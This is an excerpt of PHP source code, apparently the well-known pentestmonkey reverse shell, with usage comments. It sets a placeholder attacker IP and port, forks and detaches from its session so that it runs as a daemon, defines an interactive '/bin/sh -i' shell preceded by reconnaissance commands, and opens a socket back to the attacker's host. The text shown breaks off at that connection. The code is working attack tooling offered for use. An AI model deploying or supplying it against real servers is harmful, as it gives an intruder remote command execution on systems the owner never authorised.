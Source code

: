 ```php
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.XX.XXX';  // CHANGE THIS
$port = 8888;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
```